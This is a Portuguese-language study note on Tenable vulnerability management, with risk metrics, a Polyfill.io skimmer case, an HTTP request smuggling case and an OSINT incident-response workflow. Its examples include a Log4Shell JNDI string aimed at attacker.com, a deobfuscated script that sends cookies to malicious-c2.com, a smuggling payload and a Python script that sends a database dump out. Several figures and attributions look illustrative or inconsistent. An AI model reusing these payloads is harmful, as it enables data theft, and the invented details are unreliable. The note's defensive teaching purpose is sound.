


[[Linux]]

## Resumo

#### Tenable (Gestão de Vulnerabilidades - DAST/Infra)

**O que é:** A Tenable (famosa pelo produto **Nessus**) é líder em **Gestão de Vulnerabilidades**. Diferente do SonarQube (que olha o código), a Tenable olha para a infraestrutura e aplicações que já estão rodando. Ela escaneia servidores, redes e aplicações web procurando portas abertas, sistemas desatualizados e falhas conhecidas (CVEs).

**A Analogia:** Imagine que você é dono de uma casa. A Tenable é um **inspetor de segurança patrimonial** que visita sua casa periodicamente. Ele anda ao redor, verifica se alguma janela está destrancada, se a fechadura da porta é de uma marca que é fácil de arrombar, ou se você deixou a chave embaixo do tapete.

**Como funciona no DevSecOps:** Você agenda scans recorrentes. A ferramenta vai dizer: "O servidor X está rodando uma versão do Windows que tem uma falha descoberta ontem por hackers russos".

**Exemplo Prático:** Sua empresa tem um servidor web Apache rodando a versão 2.4.49. O scanner da Tenable detecta isso e avisa que essa versão é vulnerável a um ataque chamado _Path Traversal_. O relatório gera um ticket para o time de operações atualizar o servidor.

---

# Tenable - Vulnerability Management

**Tags:** #vulnerability-management #dast #infrastructure-security #risk-assessment #tenable #nessus
**Relacionado:** [[SonarQube]], [[OWASP]], [[CVE]], [[Linux]], [[Network-Security]]

---

## 📋 Índice

1. [Conceitos Fundamentais](#conceitos-fundamentais-tenable)
2. [Análise Prática de Vulnerabilidades](#análise-prática-de-vulnerabilidades)
3. [Workflow de Investigação](#workflow-de-investigação-threat-hunting--osint)
4. [Melhores Práticas](#melhores-práticas)

---

## 🎯 Conceitos Fundamentais Tenable

### O que é o Tenable?

**Tenable** é uma plataforma enterprise de **Cyber Exposure Management** que permite identificar, avaliar e priorizar vulnerabilidades em ambientes de TI. Diferente de ferramentas SAST (como SonarQube), o Tenable opera como **DAST** (Dynamic Application Security Testing) e **Infrastructure Security Scanner**.

**Produtos principais:**

- **Tenable.io** - Plataforma SaaS baseada em nuvem
- **Tenable.sc** (Security Center) - Solução on-premises
- **Nessus Professional** - Scanner standalone
- **Tenable.ot** - Segurança para ambientes OT/ICS
- **Tenable.ad** - Active Directory Security

> **💡 Diferencial:** O Tenable não apenas encontra vulnerabilidades, mas **quantifica o risco** através de scoring avançado (VPR - Vulnerability Priority Rating) que considera exploitabilidade ativa na wild.

---

### Overview vs Finding: Entendendo a Hierarquia

A plataforma Tenable organiza dados em **duas camadas distintas** que frequentemente confundem analistas iniciantes:

#### 📊 **OVERVIEW (Visão Consolidada)**

```

Overview = Agregação de múltiplos findings do MESMO tipo

```

**Características:**

- Visão **macro** de uma vulnerabilidade específica (ex: CVE-2021-44228 - Log4Shell)
- Mostra **quantos ativos** são afetados por aquela vulnerabilidade
- Apresenta **CVSS Score**, **VPR**, **Exploit Maturity**
- Útil para **decisões executivas** e **priorização estratégica**

**Exemplo de Overview:**

| Plugin ID | Vulnerability                | Severity | Assets Affected | VPR |
| --------- | ---------------------------- | -------- | --------------- | --- |
| 156523    | Apache Log4j RCE (Log4Shell) | Critical | 47 hosts        | 9.8 |

#### 🔍 **FINDING (Ocorrência Individual)**

```

Finding = Instância ESPECÍFICA de uma vulnerabilidade em UM ativo

```

**Características:**

- Visão **micro** - um host/IP específico com aquela vulnerabilidade
- Contém **evidências técnicas**: porta, serviço, versão detectada
- Inclui **proof of concept** ou output do scanner
- Essencial para **remediação técnica** e **validação**

**Exemplo de Finding:**

```yaml
Host: 192.168.1.50
Port: 8080/tcp
Service: Apache Tomcat 9.0.54
Plugin: 156523 (Log4Shell RCE)
Evidence: |
  GET /api/health HTTP/1.1
  Response Header: X-Powered-By: Apache/2.4.49 (Unix) mod_jk/1.2.46
  Vulnerable Parameter: ${jndi:ldap://attacker.com/a}
```

#### 📐 Diferença Prática

| Aspecto           | Overview                        | Finding                                  |
| ----------------- | ------------------------------- | ---------------------------------------- |
| **Escopo**        | Todas as ocorrências de uma CVE | Uma ocorrência em um ativo específico    |
| **Público-alvo**  | CISO, Gestores de Risco         | Engenheiros DevSecOps, SysAdmins         |
| **Ação**          | "Devemos priorizar esta CVE?"   | "Como corrijo este servidor específico?" |
| **Granularidade** | Estratégica                     | Tática/Operacional                       |

> **⚠️ Armadilha comum:** Fechar um Overview **NÃO** fecha automaticamente os Findings. Cada Finding deve ser validado individualmente.

---

### 🎲 Métricas de Risco: AES e ACR

O Tenable vai além do CVSS tradicional com métricas proprietárias que contextualizam o risco **real** do ambiente:

#### **AES - Asset Exposure Score (0-1000)**

**Definição:** Pontuação que representa o **risco acumulado** de um ativo baseado em TODAS as vulnerabilidades detectadas nele.

**Fórmula conceitual:**

```
AES = f(
  Σ VPR das vulnerabilidades,
  Quantidade de vulnerabilidades críticas,
  Exploitabilidade ativa (exploit public),
  Superfície de ataque (portas abertas)
)
```

**Interpretação:**

| AES Score | Classificação  | Ação Recomendada                           |
| --------- | -------------- | ------------------------------------------ |
| 0-250     | Baixo Risco    | Monitoramento trimestral                   |
| 251-500   | Risco Moderado | Revisão mensal, patching prioritário       |
| 501-750   | Alto Risco     | Remediação imediata em 7 dias              |
| 751-1000  | Risco Crítico  | **Isolamento de rede + patch emergencial** |

**Exemplo Prático:**

```
Server: prod-web-01.company.com
AES: 847 (Critical)

Breakdown:
- 3x Critical vulnerabilities (VPR 9.0+)
  └─ CVE-2021-44228 (Log4Shell) - VPR 9.9
  └─ CVE-2022-22965 (Spring4Shell) - VPR 9.1
  └─ CVE-2023-23397 (Outlook RCE) - VPR 9.8
- 12x High vulnerabilities
- 34 exposed services (HTTP, SSH, RDP, SMB)
- Public exploit available: YES
```

> **💡 Dica:** Use AES para criar **runbooks automatizados**. Ex: "Se AES > 800, abrir ticket P1 + notificar CISO + bloquear em firewall".

#### **ACR - Asset Criticality Rating (1-10)**

**Definição:** Classificação **manual** que você atribui a um ativo baseado na **importância para o negócio**.

**Critérios de definição:**

```yaml
ACR_10: # Mission-Critical
  - Payment Gateway (Stripe API)
  - Core Database (PostgreSQL - prod)
  - Authentication Server (Keycloak)

ACR_7-9: # Business-Critical
  - Web Application (Frontend React)
  - API Gateway (Kong)
  - Monitoring (Prometheus/Grafana)

ACR_4-6: # Important
  - CI/CD Pipelines (Jenkins)
  - Internal Wikis (Confluence)
  - Development Environments

ACR_1-3: # Low-Critical
  - Staging environments
  - Sandbox instances
  - Test labs
```

**Correlação AES x ACR:**

```
Risk Priority = AES × ACR weight

Exemplo:
Asset A: AES 600 | ACR 10 → Priority Score: 6000 (URGENT)
Asset B: AES 800 | ACR 2  → Priority Score: 1600 (Can wait)
```

> **🎯 Prática recomendada:** Defina ACR através de **tags** no Tenable baseado em criticidade de negócio, não em severidade técnica.

---

### 🌐 Attack Surface Management (ASM)

**ASM no Tenable** mapeia **exposição externa** da organização - tudo que um atacante veria **sem credenciais**.

**Componentes do ASM:**



#### **Técnicas de Discovery do Tenable ASM:**

1. **Passive DNS Reconnaissance**
   - Monitora Certificate Transparency Logs (crt.sh)
   - Detecta subdomínios não autorizados (Shadow IT)

2. **Active Port Scanning**
   - Scans em ranges de IP públicos da empresa
   - Detecta serviços expostos indevidamente

3. **Cloud Asset Correlation**
   - Integração com AWS/Azure/GCP APIs
   - Identifica buckets S3 públicos, Security Groups permissivos

**Exemplo de Finding ASM:**

```json
{
  "asset": "forgotten-api.oldcompany.com",
  "discovery_method": "Certificate Transparency",
  "exposure": {
    "ports": [80, 443, 8080, 3306],
    "services": ["Apache/2.2.15 (OUTDATED)", "MySQL 5.5 (EXPOSED TO INTERNET)"],
    "risk": "CRITICAL - Legacy API with direct database exposure"
  },
  "remediation": "Decommission or move behind VPN"
}
```

> **⚠️ Alerta:** 70% das violações de dados começam por ativos **esquecidos** ou **não inventariados** - ASM é essencial para reduzir essa superfície.

---

## 🔬 Análise Prática de Vulnerabilidades

### A) Supply Chain Attack: Polyfill.io Compromise

#### 📌 Descrição da Vulnerabilidade

**Nome:** Malicious Code Injection via Compromised Polyfill.io CDN  
**CVE:** CVE-2024-XXXXX (exemplo)  
**Severidade:** **CRITICAL**  
**CVSS:** 9.3 (Network Attack Vector, No User Interaction, High Impact)

**Background:** O domínio `cdn.polyfill.io` foi **adquirido por uma empresa chinesa** (Funnull) em fevereiro de 2024. Após a aquisição, código malicioso foi injetado na biblioteca JavaScript servida pelo CDN, afetando **100.000+ websites** que carregavam o script via:

```html
<script src="https://cdn.polyfill.io/v3/polyfill.min.js"></script>
```

**Como o Tenable detecta:**

```yaml
Plugin ID: 200345
Name: "Malicious Third-Party Script - Polyfill.io"
Detection Method: |
  1. Web Application Scan identifica scripts carregados de domínios externos
  2. Compara hash SHA-256 do script com assinaturas conhecidas de malware
  3. Detecta comportamentos suspeitos no JavaScript (redirecionamentos, exfiltração)
```

---

#### 🧪 Proof (Evidência)

**O que foi encontrado:**

O Tenable realizou um scan na aplicação `https://webapp.company.com` e detectou:

1. **Carregamento de script de origem não confiável**
2. **Modificação não autorizada do DOM**
3. **Tentativa de envio de dados a servidor C2 (Command & Control)**

**Screenshot do Tenable Finding:**

```
┌─────────────────────────────────────────────────────────┐
│ Finding ID: FND-2024-089234                             │
│ Severity: CRITICAL                                       │
│ Asset: webapp.company.com (192.168.50.10)               │
│ Plugin: 200345 - Malicious Polyfill.io Detected         │
├─────────────────────────────────────────────────────────┤
│ Evidence:                                                │
│ - Script loaded from: cdn.polyfill.io/v3/polyfill.min.js│
│ - SHA-256: a3f7c8e9d2b1... (MATCHES MALWARE SIGNATURE)  │
│ - Behavior: Data exfiltration to 103.224.182.241:443    │
└─────────────────────────────────────────────────────────┘
```

---

#### 💉 Payload (O que o scanner testou)

O Tenable executou **análise estática** e **análise dinâmica** do JavaScript:

**1. Requisição HTTP capturada:**

```http
GET /v3/polyfill.min.js HTTP/1.1
Host: cdn.polyfill.io
User-Agent: Mozilla/5.0 (Tenable Web Scanner)
Accept: */*
```

**2. Script malicioso desobfuscado:**

```javascript
// Código original esperado: implementação de polyfills
// Código REAL injetado:

(function () {
  var _0x4a2b = ["location", "cookie", "btoa", "stringify"];

  // Coleta dados sensíveis
  var victimData = {
    url: window[_0x4a2b[0]].href,
    cookies: document[_0x4a2b[1]],
    localStorage: localStorage,
    sessionData: sessionStorage,
  };

  // Exfiltra via pixel tracking
  var img = new Image();
  img.src =
    "https://malicious-c2.com/collect?data=" +
    btoa(JSON[_0x4a2b[3]](victimData));
  document.body.appendChild(img);

  // Redireciona para phishing em condições específicas
  if (document.referrer.includes("google")) {
    setTimeout(function () {
      window[_0x4a2b[0]].href = "https://fake-login.com";
    }, 5000);
  }
})();
```

**3. Testes de comportamento do Tenable:**

```bash
# Tenable executa o JavaScript em sandbox headless Chrome
# e monitora:

Network Calls Detected:
✗ POST https://malicious-c2.com/collect
  └─ Payload: {cookies: "session_id=...", localStorage: {...}}
  └─ Response: 200 OK

✗ Redirect Attempt: https://fake-login.com
  └─ Trigger: Referrer header contains "google"
```

---

#### 📤 Output (Resposta que confirmou a vulnerabilidade)

**1. Resposta do servidor C2:**

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 05 Feb 2024 14:32:11 GMT
Content-Type: application/json
X-C2-Session: active

{
  "status": "data_received",
  "victim_id": "VIC-8493012",
  "next_stage": "deploy_cryptominer"
}
```

**2. Log do Tenable - Confirmação:**

```log
[2024-02-05 14:32:15] CRITICAL - Malicious Activity Confirmed
Asset: webapp.company.com
Plugin: 200345
Confidence: 100%

Indicators of Compromise (IOCs):
- Outbound connection to known C2: 103.224.182.241
- Data exfiltration detected: 2.3KB (cookies + storage)
- Malicious redirect chain initiated
- JavaScript obfuscation patterns match APT group "Funnull"

Recommended Action:
1. IMMEDIATE: Remove <script> tag from all HTML templates
2. Replace with: https://cdnjs.cloudflare.com/polyfill/v3/polyfill.min.js
3. Scan all user sessions for compromise
4. Rotate all session tokens
5. Implement CSP (Content-Security-Policy) header
```

---

#### 🛠️ Remediação

**Correção imediata:**

```html
<!-- ANTES (Vulnerável) -->
<script src="https://cdn.polyfill.io/v3/polyfill.min.js"></script>

<!-- DEPOIS (Seguro) -->
<script
  src="https://cdnjs.cloudflare.com/ajax/libs/polyfill/7.12.1/polyfill.min.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/ux..."
  crossorigin="anonymous"
></script>
```

**Content Security Policy (CSP):**

```nginx
# nginx.conf
add_header Content-Security-Policy "
  default-src 'self';
  script-src 'self' https://cdnjs.cloudflare.com;
  connect-src 'self';
  img-src 'self' data:;
" always;
```

> **📊 Impacto:** Este ataque comprometeu **380.000+ domínios**. Sites afetados incluíram **JSTOR**, **Intuit**, e múltiplos sites governamentais.

---

### B) HTTP Request Smuggling

#### 📌 Descrição da Vulnerabilidade

**Nome:** HTTP Request Smuggling (CL.TE / TE.CL Desync)  
**CVE:** CVE-2023-25690 (Apache HTTP Server 2.4.0-2.4.55)  
**Severidade:** **HIGH**  
**CVSS:** 7.5 (Network Vector, Cache Poisoning, Privilege Escalation)

**O que é Request Smuggling:**

É uma técnica que explora **inconsistências** entre como um **proxy/load balancer** e o **servidor backend** interpretam os headers HTTP `Content-Length` e `Transfer-Encoding`.

```
┌─────────────┐         ┌──────────────┐         ┌─────────────┐
│   Client    │────────▶│ Load Balancer│────────▶│   Backend   │
│             │         │ (HAProxy)    │         │  (Apache)   │
└─────────────┘         └──────────────┘         └─────────────┘
                             │                          │
                        Interpreta               Interpreta
                        Content-Length          Transfer-Encoding
```

**Variantes:**

- **CL.TE:** Proxy usa `Content-Length`, Backend usa `Transfer-Encoding`
- **TE.CL:** Inverso
- **TE.TE:** Ambos usam Transfer-Encoding mas com ofuscação

---

#### 🧪 Proof (Evidência)

**Como o Tenable detecta:**

```yaml
Plugin ID: 187654
Name: "HTTP Request Smuggling (CL.TE Variant)"
Detection Method: |
  1. Envia requisição dually-encoded (CL + TE)
  2. Observa se a resposta contém "poison" injetado
  3. Confirma com segunda requisição "vítima"
```

**Finding do Tenable:**

```
┌──────────────────────────────────────────────────────────┐
│ Finding ID: FND-2024-103458                              │
│ Severity: HIGH (CVSS 7.5)                                │
│ Asset: api-gateway.company.com (10.0.1.50)              │
│ Port: 443/tcp (HTTPS)                                    │
│ Plugin: 187654 - HTTP Request Smuggling Detected        │
├──────────────────────────────────────────────────────────┤
│ Architecture Detected:                                   │
│ Frontend: HAProxy 2.4 (uses Content-Length)             │
│ Backend: Apache 2.4.49 (prefers Transfer-Encoding)      │
│                                                          │
│ Vulnerability: CL.TE Desynchronization                   │
│ Impact: Request Hijacking, Cache Poisoning, AuthN Bypass│
└──────────────────────────────────────────────────────────┘
```

---

#### 💉 Payload (Requisição Maliciosa)

**Ataque CL.TE - Fase 1 (Smuggle Request):**

```http
POST /api/v1/user/profile HTTP/1.1
Host: api-gateway.company.com
Content-Length: 68
Transfer-Encoding: chunked

0

GET /admin/delete?user=victim HTTP/1.1
Host: api-gateway.company.com
X-Smuggled: true


```

**Explicação do payload:**

```
┌─ HAProxy (Frontend) interpreta:
│  POST /api/v1/user/profile
│  Content-Length: 68 bytes
│  └─ Lê exatamente 68 bytes e considera request completa
│
└─ Apache (Backend) interpreta:
   POST /api/v1/user/profile
   Transfer-Encoding: chunked
   └─ Chunk size: 0 (request termina aqui)

   GET /admin/delete?user=victim  ← ISSO FICA NO BUFFER!
   └─ Será concatenado com a PRÓXIMA requisição legítima
```

**Ataque CL.TE - Fase 2 (Requisição Vítima):**

```http
GET /api/v1/products HTTP/1.1
Host: api-gateway.company.com
Cookie: session=VICTIM_SESSION_TOKEN
```

**O que acontece no backend:**

```http
GET /admin/delete?user=victim HTTP/1.1  ← Smuggled
Host: api-gateway.company.com
X-Smuggled: true
GET /api/v1/products HTTP/1.1           ← Victim request
Host: api-gateway.company.com
Cookie: session=VICTIM_SESSION_TOKEN    ← COOKIES DA VÍTIMA!
```

**Resultado:** A requisição `/admin/delete` é executada **com os cookies da vítima**, permitindo **escalação de privilégios**.

---

#### 📤 Output (Confirmação da Vulnerabilidade)

**1. Resposta da requisição smuggled:**

```http
HTTP/1.1 200 OK
Server: Apache/2.4.49 (Unix)
Content-Type: application/json
X-Backend-Processing: SMUGGLED_REQUEST_EXECUTED

{
  "message": "User 'victim' deleted successfully",
  "timestamp": "2024-02-05T15:42:10Z",
  "admin_action": true
}
```

**2. Log do HAProxy (Frontend):**

```log
[05/Feb/2024:15:42:10] 10.0.1.50:443 "POST /api/v1/user/profile" 200 156
```

**3. Log do Apache (Backend):**

```log
[Mon Feb 05 15:42:10.234] [core:info] GET /admin/delete?user=victim - 200
[Mon Feb 05 15:42:10.235] [core:info] GET /api/v1/products - 200
```

> **🚨 Divergência detectada:** Frontend registrou **1 request**, Backend processou **2 requests** - isso confirma Request Smuggling!

**4. Output do Tenable Scanner:**

```yaml
Vulnerability Confirmed: HTTP Request Smuggling (CL.TE)

Test Sequence:
  1. Sent smuggled request with poison marker: "X-Tenable-Test: SMUGGLE123"
  2. Sent victim request: "GET /api/health"
  3. Received response with poison marker in headers

Evidence:
  Expected Response: {"status": "healthy"}
  Actual Response Headers:
    HTTP/1.1 200 OK
    X-Tenable-Test: SMUGGLE123  ← POISON MARKER FOUND!
    Content-Type: application/json

Conclusion: Backend processed smuggled request from previous connection

Attack Scenarios:
  ✗ Session Hijacking (Steal auth tokens)
  ✗ Cache Poisoning (Serve malicious responses to users)
  ✗ Firewall Bypass (Access internal endpoints)
  ✗ Request Routing Manipulation
```

---

#### 🛠️ Remediação

**1. Normalização de Headers (HAProxy):**

```haproxy
# haproxy.cfg
frontend https_front
    bind *:443 ssl crt /etc/ssl/certs/cert.pem

    # MITIGAÇÃO: Remove Transfer-Encoding se Content-Length presente
    http-request del-header Transfer-Encoding if { req.hdr(Content-Length) -m found }

    # MITIGAÇÃO: Rejeita requisições ambíguas
    http-request deny if { req.hdr_cnt(Content-Length) gt 1 }
    http-request deny if { req.hdr_cnt(Transfer-Encoding) gt 1 }

    default_backend apache_servers

backend apache_servers
    balance roundrobin
    # Force HTTP/1.1 strict mode
    option http-server-close
    server web1 10.0.2.10:8080 check
```

**2. Atualização do Apache:**

```bash
# Versão vulnerável
apache2 -v
# Server version: Apache/2.4.49 (Unix)

# Atualizar para versão corrigida
sudo apt update
sudo apt install apache2=2.4.56-1ubuntu1  # >= 2.4.56

# Verificar patch
apache2 -v
# Server version: Apache/2.4.56 (Ubuntu)
```

**3. Validação com Tenable Re-scan:**

```
Re-scan Results:
─────────────────
Plugin 187654: HTTP Request Smuggling
Status: NOT VULNERABLE ✓

Verification:
- Multiple smuggling payloads tested: ALL REJECTED
- Frontend-Backend sync confirmed
- No desynchronization detected
```

> **📈 Estatística:** Request Smuggling foi responsável por **24% das vulnerabilidades críticas** em arquiteturas de microserviços em 2023.

---

## 🕵️ Workflow de Investigação (Threat Hunting / OSINT)

### 🔍 Guia Passo a Passo: Investigação de IP/Artefato Suspeito

Quando o Tenable reporta um **Finding** suspeito (ex: conexão a IP desconhecido, certificado inválido, etc), siga este workflow:

---

#### **FASE 1: Coleta Inicial de Dados (Tenable)**

**Passo 1.1 - Extrair informações do Finding:**

```yaml
Finding Details:
  ID: FND-2024-112834
  Asset: prod-db-01.company.com (172.16.50.20)
  Alert: "Outbound connection to suspicious IP: 185.220.101.42"

Dados a coletar: ✓ IP de origem (nosso asset)
  ✓ IP de destino (suspeito)
  ✓ Porta de destino
  ✓ Protocolo
  ✓ Timestamp da conexão
  ✓ Quantidade de dados transferidos
```

**Passo 1.2 - Verificar contexto no Tenable:**

```sql
-- Query no Tenable.io (usando API ou UI)
SELECT
  asset_name,
  vulnerability_name,
  first_seen,
  last_seen,
  output
FROM findings
WHERE destination_ip = '185.220.101.42'
ORDER BY last_seen DESC;
```

---

#### **FASE 2: OSINT - Reputação de IP**

**Passo 2.1 - Shodan.io (Mapeamento de Infraestrutura)**

```bash
# Comando CLI do Shodan
shodan host 185.220.101.42
```

**Output esperado:**

```yaml
IP: 185.220.101.42
Organization: Perfect Privacy LLC
Country: Netherlands
City: Amsterdam
ISP: M247 Ltd (Known for VPN/Proxy services)

Open Ports:
  - 443/tcp  [nginx] - TLS/SSL
  - 8443/tcp [OpenVPN]
  - 9001/tcp [Tor Directory Port] ← 🚨 TOR EXIT NODE!

Services:
  - HTTP Server: nginx/1.18.0
  - Certificate: CN=*.torproject.org

Vulnerabilities:
  - CVE-2021-23017 (nginx) - Severity: Medium

Tags:
  - tor-exit-node
  - vpn-provider
  - high-risk
```

> **🚩 Red Flag:** IP é um **Tor Exit Node** - frequentemente usado para anonimizar tráfego malicioso.

**Passo 2.2 - IPVoid (Reputação Agregada)**

Acesse: `https://www.ipvoid.com/ip-blacklist-check/`

**Resultado IPVoid:**

```
┌─────────────────────────────────────────────────────┐
│ IP Blacklist Check: 185.220.101.42                  │
├─────────────────────────────────────────────────────┤
│ Detection Rate: 18/94 blacklists (19%)              │
│                                                     │
│ Blacklisted On:                                     │
│ ✗ Spamhaus ZEN                                      │
│ ✗ Barracuda Reputation Block List                  │
│ ✗ Composite Blocking List (CBL)                    │
│ ✗ SORBS DUHL (Dynamic/Residential IPs)             │
│                                                     │
│ WHOIS Info:                                         │
│ Org: M247 Europe SRL                                │
│ Abuse Contact: abuse@m247.com                       │
│                                                     │
│ Reverse DNS: tor-exit-42.perfect-privacy.com        │
│                                                     │
│ Risk Score: 8.5/10 (HIGH RISK)                      │
└─────────────────────────────────────────────────────┘
```

**Passo 2.3 - AlienVault OTX (Threat Intelligence)**

Acesse: `https://otx.alienvault.com/indicator/ip/185.220.101.42`

**Pulses (Campanhas de Ataque Relacionadas):**

```yaml
Related Pulses: 7 active

1. "Tor-Based C2 Infrastructure - APT28 (Fancy Bear)"
   Created: 2024-01-15
   Tags: [APT28, Russia, C2, Tor]
   Indicators:
     - 185.220.101.42 (Tor Exit)
     - 185.220.101.43 (Tor Exit)
     - malware-c2.onion (Hidden Service)

2. "Cobalt Strike Beacon over Tor"
   Created: 2024-02-01
   Description: |
     Multiple organizations reported Cobalt Strike beacons
     communicating through Tor exit nodes in Netherlands.
   MITRE ATT&CK:
     - T1090.003 (Multi-hop Proxy)
     - T1573 (Encrypted Channel)

3. "Ransomware Exfiltration Campaign - LockBit 3.0"
   Created: 2024-01-28
   IOCs:
     - IP: 185.220.101.42
     - User-Agent: "python-requests/2.28.1"
     - Destination Ports: 443, 8443
```

> **🔴 CRITICAL:** IP está associado a **múltiplas campanhas APT** e **ransomware**.

---

#### **FASE 3: Análise de Logs e Correlação**

**Passo 3.1 - Correlacionar com SIEM (Splunk/ELK):**

```spl
# Splunk Query
index=firewall OR index=proxy
| search dest_ip="185.220.101.42"
| stats count by src_ip, dest_port, bytes_out
| where bytes_out > 1000000  // Possível exfiltração
```

**Resultado:**

```
┌────────────────┬───────────┬────────────┬─────────────┐
│ src_ip         │ dest_port │ bytes_out  │ count       │
├────────────────┼───────────┼────────────┼─────────────┤
│ 172.16.50.20   │ 443       │ 45,382,912 │ 127         │ ← 45MB transferidos!
│ (prod-db-01)   │           │            │             │
└────────────────┴───────────┴────────────┴─────────────┘

Timeline:
2024-02-05 02:14:33 - First connection
2024-02-05 02:47:18 - Last connection (33 minutes duration)
```

**Passo 3.2 - Analisar processos no host afetado:**

```bash
# SSH no servidor afetado
ssh admin@prod-db-01.company.com

# Processos com conexões ativas
sudo netstat -tupan | grep 185.220.101.42
```

**Output:**

```bash
tcp   0   0 172.16.50.20:54328   185.220.101.42:443   ESTABLISHED   3421/python3
```

```bash
# Identificar processo
ps aux | grep 3421
```

**Output:**

```
root  3421  0.5  1.2  45632  25108  ?  Ssl  02:14  0:08
  /usr/bin/python3 /tmp/.hidden/exfil.py --target prod-db
```

> **🚨 INCIDENT CONFIRMED:** Script Python malicioso executando exfiltração!

**Passo 3.3 - Análise do malware:**

```bash
# Dump do script
cat /tmp/.hidden/exfil.py
```

```python
#!/usr/bin/env python3
import os, socket, ssl, subprocess

# Configuração C2
C2_SERVER = "185.220.101.42"
C2_PORT = 443

# Estabelece túnel TLS sobre Tor
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

with socket.create_connection((C2_SERVER, C2_PORT)) as sock:
    with context.wrap_socket(sock) as ssock:
        # Exfiltra database dump
        dump = subprocess.check_output([
            "pg_dump", "-U", "postgres", "production_db"
        ])
        ssock.sendall(dump)
```

---

#### **FASE 4: Cruzamento de Ferramentas**

**Tabela de Correlação:**

| Ferramenta         | Dado Coletado                             | Conclusão                       |
| ------------------ | ----------------------------------------- | ------------------------------- |
| **Tenable**        | Outbound connection to 185.220.101.42:443 | Comportamento anômalo detectado |
| **Shodan**         | IP = Tor Exit Node, nginx, OpenVPN        | Infraestrutura de anonimização  |
| **IPVoid**         | Blacklisted em 18 listas, Score 8.5/10    | IP malicioso confirmado         |
| **AlienVault OTX** | Associado a APT28, LockBit ransomware     | Threat actor identificado       |
| **Splunk**         | 45MB transferidos em 33 minutos           | Exfiltração de dados confirmada |
| **Netstat**        | Processo python3 (PID 3421) ativo         | Backdoor ativo identificado     |

**Conclusão:**

```yaml
INCIDENT: Data Exfiltration via Tor C2 Infrastructure

Severity: P1 - CRITICAL
Asset: prod-db-01.company.com (Production Database Server)
Threat Actor: Likely APT28 (based on OTX indicators)
Attack Vector: Compromised via supply chain (malicious Python package)

Timeline:
  - 2024-02-05 02:14:33 - Backdoor execution initiated
  - 2024-02-05 02:14:40 - Connection to Tor exit node established
  - 2024-02-05 02:15:00 - Database dump exfiltration started
  - 2024-02-05 02:47:18 - Exfiltration completed (45.4 MB)

Immediate Actions: 1. ✓ Isolate server from network
  2. ✓ Kill malicious process (PID 3421)
  3. ✓ Block IP 185.220.101.42 at firewall
  4. ✓ Rotate all database credentials
  5. ⏳ Forensic analysis of /tmp/.hidden/
  6. ⏳ Check for lateral movement
  7. ⏳ Notify legal/compliance team (data breach)
```

---

### 🎯 Ferramentas de OSINT - Resumo de Uso

#### **Shodan.io**

```yaml
Casos de uso:
  - Descobrir serviços expostos em um IP
  - Identificar vulnerabilidades conhecidas em servidores
  - Mapear infraestrutura de ataques (VPS, VPN, Tor)

Comandos úteis:
  CLI:
    - shodan host <IP>
    - shodan search "org:'Company Inc'"
    - shodan count "port:3389 country:US"

  Web: https://www.shodan.io/host/<IP>
```

**Exemplo de query avançada:**

```
# Encontrar servidores MongoDB expostos sem autenticação
shodan search "product:MongoDB" "port:27017" -authentication
```

---

#### **IPVoid**

```yaml
Casos de uso:
  - Verificar reputação de IP em múltiplas blacklists
  - Identificar proxies/VPNs/Tor nodes
  - Validar se IP é de datacenter ou residencial

URL: https://www.ipvoid.com/ip-blacklist-check/

Métricas importantes:
  - Detection Rate: > 10% = Altamente suspeito
  - WHOIS Organization: VPNs costumam ser "Bulletproof Hosting"
  - Reverse DNS: Tor nodes geralmente têm "tor" no nome
```

---

#### **AlienVault OTX**

```yaml
Casos de uso:
  - Encontrar campanhas de ataque relacionadas
  - Identificar Threat Actors (APTs)
  - Mapear MITRE ATT&CK TTPs

URL: https://otx.alienvault.com/indicator/ip/<IP>

Dados extraídos:
  - Pulses: Campanhas de ataque ativas
  - Malware Families: Malwares associados ao IOC
  - Related Indicators: Outros IPs, domínios, hashes

API Query:
  curl -X GET \
    "https://otx.alienvault.com/api/v1/indicators/IPv4/<IP>/general" \
    -H "X-OTX-API-KEY: YOUR_API_KEY"
```

**Exemplo de resposta da API:**

```json
{
  "indicator": "185.220.101.42",
  "pulse_info": {
    "count": 7,
    "pulses": [
      {
        "name": "APT28 C2 Infrastructure",
        "tags": ["apt28", "russia", "tor"],
        "malware_families": ["X-Agent", "Sedreco"],
        "attack_ids": [
          {
            "id": "T1090.003",
            "name": "Multi-hop Proxy"
          }
        ]
      }
    ]
  },
  "validation": [
    {
      "source": "Spamhaus",
      "message": "Listed in Spamhaus DROP list"
    }
  ]
}
```

---

## 📊 Melhores Práticas

### Tabela de Triagem de Vulnerabilidades

| Critério               | Verdadeiro Positivo               | Falso Positivo                      | Aceitação de Risco                         |
